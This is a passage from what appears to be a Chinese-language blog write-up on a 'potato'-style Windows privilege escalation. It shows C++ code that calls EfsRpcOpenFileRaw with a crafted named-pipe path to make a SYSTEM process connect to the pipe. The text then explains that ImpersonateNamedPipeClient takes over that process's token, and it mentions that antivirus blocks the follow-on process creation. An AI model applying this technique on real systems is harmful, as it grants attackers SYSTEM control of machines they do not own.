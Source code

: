 ```cpp
	status = RpcBindingFromStringBinding(pszStringBinding, &BindingHandle);
	
	status = RpcStringFree(&pszStringBinding);
	
	RpcTryExcept{
		PVOID pContent;
		LPWSTR pwszFileName;
		pwszFileName = (LPWSTR)LocalAlloc(LPTR, MAX_PATH * sizeof(WCHAR));
		StringCchPrintf(pwszFileName, MAX_PATH, L"\\\\127.0.0.1/pipe/random\\C$\\x");

		long result;
		wprintf(L"[*] Invoking EfsRpcOpenFileRaw with target path: %ws\r\n", pwszFileName);
		result = EfsRpcOpenFileRaw(
			BindingHandle,
			&pContent,
			pwszFileName,
			0
		);
		
		status = RpcBindingFree(
			&BindingHandle                   // Reference to the opened binding handle
		);
		LocalFree(pwszFileName);
	}
		RpcExcept(1)
	{
		wprintf(L"RpcExcetionCode: %d\n", RpcExceptionCode());
		return FALSE;
	}RpcEndExcept
```

每次调用EfsRpcOpenFileRaw都会触发SYSTEM进程连接命名管道，然后再通过ImpersonateNamedPipeClient模拟SYSTEM进程的权限执行代码，当ImpersonateNamedPipeClient函数调用成功后，当前线程的Token其实已经变成了SYSTEM账户的，特权代码执行完成后还可以用RevertToSelf恢复到原来的线程Token。

在我实现成功后遇到数字杀毒会拦截提权的行为，其实很多土豆提权成功后，会复制一份Token去创建进程，一般调用CreateProcessWithToken和CreateProcessAsUser比较多，被拦截的时候会是这样：

![](../../../static/images/2022-08-11-22-08-11.png)